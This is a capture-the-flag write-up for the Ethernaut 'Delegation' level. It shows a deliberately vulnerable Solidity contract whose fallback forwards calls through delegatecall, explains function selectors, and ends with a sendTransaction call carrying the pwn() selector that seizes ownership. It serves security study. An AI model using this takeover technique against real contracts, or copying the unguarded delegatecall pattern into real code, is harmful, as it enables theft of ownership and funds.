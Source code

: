 # Delegation

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
Fallback methods
Method ids

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

The delegatecall function basically forwards the scope of one request to another. This can be used to make a contract call the function of another contract. However, in this case the context of what is sent to that second function is what the attacker chooses it to be. In order to take over this contract we can send a transaction to the contract. This will hit the fallback function. This fallback function will then delegatecall to the Delegate contract. All we need to do is tell it to call the pwn function. 

Functions can be called using their hash. The hash is the first 4 bytes of the Sha3 hash (Keccak-256 hash). The function ID is found by hashing the signature and then also concatinating the parameters as 32 byte hex strings. In this case we don't need any parameters. 

The way to attack the contract is to sendTransaction with the right data filled out. That is the from address (player) the to address (contract) and the data (hash ID of pwn).

```js
await sendTransaction({
from: '0x7cd9b6A2c517e1930F230d032Ab25F497A87c651',
to: '0xC5AA7236bc2e3FC9f570D71677B636180028CFC4',
data: '0xdd365b8b'
})
```

## Sources and other pages that were helpful
https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7/
https://medium.com/coinmonks/delegatecall-calling-another-contract-function-in-solidity-b579f804178c
https://ethereum.stackexchange.com/questions/7570/whats-a-fallback-function-when-using-address-send
https://ethereum.stackexchange.com/questions/24044/method-id-for-a-solidity-generated-getter-function
https://docs.soliditylang.org/en/v0.5.3/abi-spec.html#examples
https://abi.hashex.org/#
https://emn178.github.io/online-tools/keccak_256.html
